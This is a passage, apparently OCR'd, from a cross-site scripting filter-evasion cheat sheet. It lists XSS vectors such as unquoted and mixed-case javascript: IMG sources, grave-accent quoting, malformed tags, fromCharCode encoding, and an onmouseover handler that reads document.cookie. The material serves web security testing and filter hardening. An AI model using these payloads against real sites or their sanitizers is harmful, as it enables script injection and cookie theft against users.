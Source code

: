 
				No quotes and no semicolon
				1
				<IMG SRC=javascript:alert('XSS')>


				Case insensitive XSS attack vector
				1
				<IMG SRC=JaVaScRiPt:alert('XSS')>


				HTML entities

				The semicolons are required for this to work:
				1
				<IMG SRC=javascript:alert("XSS")>


		Grave accent obfuscation

		If you need to use both double and single quotes you can use a grave accent to encapsulate the JavaScript string – this is also useful because lots of cross site scripting filters don’t know about grave accents:
		1
		<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>


		Malformed A tags

		Skip the HREF attribute and get to the meat of the XXS… Submitted by David Cross ~ Verified on Chrome

		<a onmouseover=”alert(document.cookie)”>xxs link</a>

		or Chrome loves to replace missing quotes for you… if you ever get stuck just leave them off and Chrome will put them in the right place and fix your missing quotes on a URL or script.

		<a onmouseover=alert(document.cookie)>xxs link</a>
		Malformed IMG tags

		Originally found by Begeek (but cleaned up and shortened to work in all browsers), this XSS vector uses the relaxed rendering engine to create our XSS vector within an IMG tag that should be encapsulated within quotes. I assume this was originally meant to correct sloppy coding. This would make it significantly more difficult to correctly parse apart an HTML tag:
		1
		<IMG """><SCRIPT>alert("XSS")</SCRIPT>">


		fromCharCode

		if no quotes of any kind are allowed you can eval() a fromCharCode in JavaScript to create any XSS vector you need:
		1
		<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>


		Default SRC tag to get past filters that check SRC domain
